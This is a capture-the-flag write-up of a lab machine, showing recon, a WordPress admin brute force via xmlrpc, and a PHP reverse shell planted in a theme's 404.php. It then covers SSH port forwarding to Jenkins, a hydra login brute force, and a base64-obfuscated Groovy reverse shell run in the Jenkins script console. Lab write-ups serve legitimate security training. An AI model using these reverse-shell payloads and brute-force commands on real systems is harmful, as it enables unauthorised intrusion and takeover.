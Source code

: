 i start with an nmap (a simple host discovery and port scanning tool)
	
	nmap 10.10.205.70
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

i then visit the website on port 80 and i start a gobuster in the background:
	
	gobuster dir -u http://10.10.205.70/ -w ~/Pentest/SecLists/Discovery/Web-Content/big.txt -x php,html,txt,js,pdf -t 20
output:
	
	/index.html           (Status: 200) [Size: 10918]
	/javascript           (Status: 301) [Size: 317] [--> http://10.10.205.70/javascript/]
	/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.205.70/phpmyadmin/]
	/server-status        (Status: 403) [Size: 277]
	/wordpress            (Status: 301) [Size: 316] [--> http://10.10.205.70/wordpress/]
so i visit the url and (also from the name of the folder)
i understand that is a site hosted with wordpress.
The first thing i check is the wordpress version:
	
	WordPress version 5.4.2
so i start a wordpress scan with WPScan:
	
	wpscan -e --url http://10.10.205.70/blog/
and i find out that the username is admin
so i search an exploit for this version;
WPScan gives me advice for an exploit:
	
	https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
There is a module on msfconsole that let me exploit this
vulnerability

so i set every request nedeed and start the exploit;
eventually i got the password:
	
	admin:[REDACTED]
so i log inside the wp-login page and upload a revshell
i set up a listener on port 4444 on my local machine:
	
	python3 -m pwncat
	connect -lp 4444
then i modified the 404.php file on wordpress to upload the revshell:
	
	<?php
	exec("/bin/bash -c 'bash -i > /dev/tcp/10.8.79.118/4444 0>&1'");

so now we have access as www-data on the first container;
Now we need to pivot to the next host:
so i upload linpeas on the machine for the enumeration:
	
	Ctrl + d 
	Upload Pentest/linpeas.sh /tmp/linpeas.sh

But it finds nothing, so i keep enumerating manully;
I found something strange in the /opt directory:
	
	aubreanna:[REDACTED]

So now we can log as the aubreanna user;
In her /home directory i found a jenkins.txt file
and there is written on it that is a jenkins service running on port 8080 on the localhost
So we need to port forward the service to our machine:
On our localmachine i entered this command:
	
	ssh -L 9000:127.0.0.1:8080 aubreanna@10.10.205.70

The port 9000 on our localhost is binded on the 8080 on the remote machine
I visited the http://127.0.0.1:9000/
is a jenkins login page.
I tried a brute force on the admin user after tryng a bunch of common creds:
	
	hydra 127.0.0.1 -s 5555 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt

i found the creds:
	
	admin:[REDACTED]

We are inside jenkins page.
We now need to place a revshell on the script console on admin page:
	
	def sout = new StringBuffer(), serr = new StringBuffer()
	def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44Ljc5LjExOC83Nzc3IDA+JjEn}|{base64,-d}|{bash,-i}'.execute()
	proc.consumeProcessOutput(sout, serr)
	proc.waitForOrKill(1000)
	println "out> $sout err> $serr"

I set up another listener on my machine:
	
	python3 -m pwncat
	connect -lp 7777

We are now inside jenkins container;
i tried priv-esc via linpeas.sh:
	
	Ctrl-d
	upload Pentest/linpeas.sh /tmp/linpeas.sh

i run linpeas but also this time it doesnt find anything,
so i checked once again in /opt folder and i had luck:
	
	root:[REDACTED]

I then come back to the main machine and log in as root
and GOT THE LAST FLAG


